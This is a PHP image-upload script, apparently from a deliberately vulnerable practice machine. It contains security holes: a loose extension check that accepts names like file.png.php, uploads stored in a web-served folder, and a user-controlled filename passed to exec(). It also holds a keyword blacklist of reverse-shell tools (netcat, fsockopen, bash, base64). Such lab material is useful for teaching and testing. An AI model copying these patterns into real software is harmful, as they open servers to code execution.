



`upload.php`

```php
<?php

define ("MAX_SIZE","500");
$raw_name='';

function getExtension($str) {
    $i = strrpos($str,".");
    if (!$i) { return ""; }
    $l = strlen($str) - $i;
    $ext = substr($str,$i+1,$l);
    return $ext;
 }

$errors=0;

if(isset($_POST['Submit'])) {
    $image=$_FILES['image']['name'];
    if ($image) {
 	$filename = stripslashes($_FILES['image']['name']);
	$extension = getExtension($filename);
	$extension = strtolower($extension);
	if (preg_match("/^.*\.(bmp|jpeg|gif|png|jpg).*$/i", $filename)) {
            $size=filesize($_FILES['image']['tmp_name']);
            if ($size > MAX_SIZE*1024) {
                echo '<h1>You have exceeded the size limit!</h1>';
                $errors=1;
            }
	    $raw_name=md5($image);
	    $image_name=md5($image).'.'.$extension;
            $newname="images/".$image_name;
            $copied = copy($_FILES['image']['tmp_name'], $newname);
            if (!$copied) {
                echo '<h1>Copy unsuccessful!</h1>';
                $errors=1;
            }
        }
 	else {
	    echo '<h1>Invalid file extension!</h1>';
            $errors=1;
        }
    }
    else {
	echo '<h1>No image selected. Be carefull next time!</h1>';
	$errors=1;
    }
}
else {
    echo '<h1>No data? Come on give me something to play with!</h1>';
    $errors=1;
}

if(isset($_POST['Submit']) && !$errors) {

    $file = file_get_contents("./images/$image_name");
    if( strpos($file,"perl") ||
	strpos($file,"bash") ||
	strpos($file,"sh -c") ||
	strpos($file,"python") ||
	strpos($file,"nc ") ||
	strpos($file,"netcat") ||
	strpos($file,"base64") ||
	strpos($file,"ruby") ||
	strpos($file,"fsockopen") ||
	strpos($file,"xterm") ||
	strpos($file,"gcc") ||
	strpos($file,'$_GET') ||
	strpos($file,'$_POST') ||
	strpos($file,'$_SERVER') ||
	strpos($file,'$_FILES') ||
	strpos($file,'$_COOKIE') )
    {
	echo "<h1>Ohhh you are naughty!</h1>";
	exec("rm ./images/$image_name");
	die;
    }
    setcookie("trypios", "$raw_name", time()+3600);
    echo '<script type="text/javascript"> window.location = "http://'.$_SERVER['SERVER_ADDR'].":".$_SERVER['SERVER_PORT'].'/image.php" </script>';
}
?>
```